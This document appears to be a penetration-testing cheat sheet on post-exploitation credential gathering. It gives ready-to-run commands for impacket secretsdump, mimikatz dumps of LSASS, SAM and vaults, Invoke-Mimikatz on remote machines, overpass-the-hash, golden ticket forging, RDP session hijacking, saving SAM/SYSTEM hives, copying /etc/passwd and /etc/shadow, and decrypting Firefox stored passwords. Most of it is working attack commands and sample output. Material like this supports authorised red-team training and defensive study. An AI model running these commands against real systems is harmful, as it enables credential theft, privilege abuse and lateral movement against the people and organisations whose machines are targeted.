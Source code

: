 ```yaml
---
title: Gathering Credentials
category: Post Exploitation
order: 3
---
```


After compromising a target is important to recollect the maximum credentials to spray them on the network.

# Looking for Interesting Files

If the target have a web application that use a database try to find the `config.php` file in order to obtain the database connection.

Look what type of applications are installed and look for config files in order to find new pair of creds.

# Secretsdump

`secretsdump` is a python script from `impacket` that retrieves secrets such as mimikatz in a remote way.

```
impacket-secretsdump corp/Administrador:'passw0rd'@10.10.10.10
```

# Mimikatz

It can be user to dump credentials,cached logon credentials, SAM, System, LSASS, VAULT, tuickets and more... To dump those credentials admin privs are needed.

```
.\mimikatz.exe
privilege::debug 
sekurlsa::logonpasswords full
sekurlsa::wdigest
sekurlsa::credman
lsadump::sam
vault::cred
vault::list
ts::mstsc
ts::sessions



.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords full" "sekurlsa::wdigest" "sekurlsa::credman" "lsadump::sam" "vault::cred" "vault::list" "ts::mstsc" "exit"
```

> **Note**: if `sekurlsa::logoncredentials` does not work in Windows 10 or Server 2019 download a older realease.
>
> [mimikatz.exe v 2.1.1](https://gitlab.com/kalilinux/packages/mimikatz/-/tree/d72fc2cca1df23f60f81bc141095f65a131fd099/x64)

## Invoke-Mimikatz

The script is userful to execute mimikatz with PowerShell without droppin the mimikatz exe to disk. Using the code from `ReflectivePEInjection`, mimikatz is loaded reflectively into the memory. All the functions of mimikatz could be used from this script.

Like `mimikatz.exe` the script needs administrative privileges for dumping credentials from local machine.

[https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)

```powershell
Invoke-Mimikatz -DumpCreds
```
We can also dump credentials on multiple remote machines.

```powershell
Invoke-Mimikatz -DumCreds -ComputerName @("machine01","machine02")
```
`Invoke-Mimikatz` gives us the oportunity to excute differents attacks. Examples of Attacks:

* **Overpass the Hash**:

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /usr:Administrator /domain:corp.local /ntlm:<ntlmhash> /run:powershell.exe"'
```
* **Crafting a golden ticket**:

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:corp.local /sid:S-1-5-21-268341927-4156873456-1784235843 /krbtgt:a9b30e5b0dc865eadcea9411e4ade72d /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
# **Hijacking RDP Session**

To hijack a RDP session we need mimikatz.

```
.\mimikatz.exe
privilege::debug
ts::sessions
ts::mstsc
token::elevate
ts::remote /id:3
```

# SAM and SYSTEM (Win)

You can easily dump the SAM and SYSTEM registries using the command prompt. Just open the `cmd.exe` as Administrator and run the following commands:

```
reg save HKLM\SAM c:\windows\temp\sam
reg save HKLM\SYSTEM c:\windows\temp\system
```

Finally on our kali we just need to use `sam2dump` to get the hashes.

```
samdump2 system sam > hashes.txt
```

# PASSWD and SHADOW (Lin)

Same as Windows, when we **pwn** a privilege user such as **root** we can get system users and passwords. In linux we just need to copy the following files to our attacking machine.

```
/etc/passwd
/etc/shadow
```

Finally on our kali machine we just need to use `unshadow` to get the hashes:

```
unshadow passwd shadow > hashes.txt
```

# Mozilla Firefox / Thunderbird / WaterFox / SeaMonkey

Some users victims uses Mozilla Firefox or Mozilla Thunderbird and stores their credentials without protection.

On windows search the following route:

```
C:\Users\VICTIM\AppData\Roaming
```

Zip the content of Firefox or Thunderbird folder and transfer it to the attacking machine. Once transferred we are going to use `firefox-decrypt` tool to get the plaintext credentials.

```
$ python firefox_decrypt.py /folder/containing/profiles.ini/

Master Password for profile /tmp/Thunderbird/Profiles/s68bba5j.default: 
2021-09-21 19:55:06,811 - WARNING - Attempting decryption with no Master Password

Website:   mailbox://test.local
Username: 'eric'
Password: 'sup3rs3cr3t'

Website:   smtp://test.local
Username: 'eric'
Password: 'sup3rs3cr3t'
```

* [https://github.com/unode/firefox_decrypt](https://github.com/unode/firefox_decrypt)
